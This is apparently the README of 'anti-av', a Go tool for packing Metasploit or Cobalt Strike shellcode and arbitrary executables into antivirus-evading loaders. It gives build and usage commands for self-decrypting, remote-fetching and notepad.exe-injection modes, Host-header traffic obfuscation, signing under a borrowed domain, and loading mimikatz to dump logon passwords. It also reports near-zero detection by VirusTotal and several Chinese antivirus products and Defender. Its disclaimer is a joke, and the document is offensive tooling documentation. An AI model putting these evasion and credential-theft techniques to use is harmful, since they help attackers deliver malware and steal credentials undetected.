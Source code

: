 # ANTI-AV



## 免责

本工具学习使用，溯源到b1gcat肯定不是我。


## TODO

- [ ] 合入SysWhispers直接调用syscall asm
- [ ] 支持加载任意pe文件实现免杀


## 描述
* shellcode*免杀加载，*payload*支持**msf** (-f raw)和**cs**(payload raw)

* 任意执行文件免杀加载，payload为pe格式

  ​	注意：执行免杀时，如果不带参数可以绕过av监测，带参数的那啥目前测试defender过不了，估计有参数黑名单）


## 安装

### Requirement

```bash
1、建议使用Mac或linux环境

2、安装交叉编译 mingw64

3、安装签名 openssl、osslsigncode
```

### anti-av

```bash
git clone https://github.com/b1gcat/anti-av.git
go build

Usage of ./anti-av:
  -domain string
        代码签名,需填写实际存在的域名 (default "baidu.com")
  -e    生成payload.e
  -ho string
        远程加载payload.e时,在GET请求头中替换host实现流量混淆 (default "wwww.baidu.com")
  -inject
        开启注入模式, shellcode注入到Notepad.exe
  -l string
        支持的加载类型: sc (default "sc,pe")
  -nosign
        关闭签名
  -os string
        OS: windows,linux (default "windows")
  -p string
        Payload: 
                1.支持 远程远程加载payload.e(参考payload.e生成实例)
                2.支持MSF payload generate by '-f raw'.
                3.支持CS raw payload.
                 (default "payload.bin")

```



## 使用方案



| 形态              | 说明                    | 生成命令                                                     |
| ----------------- | ----------------------- | ------------------------------------------------------------ |
| 自解密   | 无                      | ./anti-av -p ~/Desktop/payload.bin                         |
| 远程加载 | 无                      | 1、生成payload.e<br />./anti-av  -e -p ~/Desktop/payload.bin    <br /><br />2、上传payload.e到公共下载服务<br />略<br /><br />3、制作加载器<br />./anti-av -p http://x.x.x.x/payload.e |
| 进程注入          | 会强制注入到notepad.exe | ./anti-av -p ~/Desktop/payload.bin -inject 或<br /><br />./anti-av -p http://x.x.x.x/payload.e  -inject |
| 加载pe文件 |  | ./anti-av -l pe -p ~/Downloads/mimikatz_trunk_x64/x64/mimikatz.exe |



## 注意

* CS生成raw格式64位 payload，需要勾选x64

* PE加载时如果带参数例如: `anttav_windows_amd64 "privilege::debug" "sekurlsa::logonpasswords" "exit"`,此时会被拦截。

  

## 测试

| VT   | 火绒 | 360安全卫士 | 腾讯管家 | window defender |
| ---- | ---- | ----------- | -------- | --------------- |
| 1/68 | √    | √           | √        | √               |
|      |      |             |          |                 |

